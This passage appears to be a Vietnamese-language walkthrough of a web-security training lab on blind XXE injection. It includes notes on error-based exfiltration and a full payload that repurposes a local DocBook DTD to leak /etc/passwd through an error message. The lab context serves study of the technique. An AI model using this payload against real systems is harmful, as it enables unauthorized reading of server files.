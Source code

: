 - Thực hiện khai thác
![alt text](img/image-17.png)

**Note**
Trong một số trường hợp khi chúng ta sử dụng sai cú pháp XML dẫn đến quá trình phân tích cú pháp dữ liệu gặp lỗi, lúc này hệ thống thường trả về các đoạn thông báo lỗi (error message), chúng có thể chứa một số thông tin nhạy cảm.
Bằng cách đưa luồng xử lý hệ thống đi vào trường hợp error, chúng ta có thể kết hợp sử dụng external DTD nhằm "gửi" nội dung file bất kỳ vào các đoạn thông báo lỗi, từ đó hiển thị chúng trong giao diện.


## Exploiting blind XXE by repurposing a local DTD
### 7. Exploiting XXE to retrieve data by repurposing a local DTD
**Yêu cầu**
This lab has a "Check stock" feature that parses XML input but does not display the result.
To solve the lab, trigger an error message containing the contents of the `/etc/passwd` file.
You'll need to reference an existing DTD file on the server and redefine an entity from it.

>Hint
Systems using the GNOME desktop environment often have a DTD at `/usr/share/yelp/dtd/docbookx.dtd` containing an entity called `ISOamso`.

**Thực hiện**
- Thực hiện kiểm tra XXE Injection thông qua Burp Colaborator
![alt text](img/image-18.png)
![alt text](img/image-19.png)

- Theo nội dung bài lab, chúng sẽ tận dụng bằng việc load file `.dtd` local và ghi đè lại các parameter entity có. Khi đó ta có thể khai báo thêm các entity khác.
Payload:
```
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

- Hoàn thành bài lab.
![alt text](img/image-20.png)

**Note**
Khi bạn sử dụng một internal DTD (khai báo DTD trong XML) và external DTD (khai báo DTD từ một tệp ngoài), internal DTD có thể ghi đè các khai báo trong external DTD. Điều này có thể tạo ra một lỗ hổng bảo mật và cho phép kẻ tấn công khai thác bằng cách sử dụng parameter entity để tham chiếu vào một entity khác — điều mà thông thường không được phép.
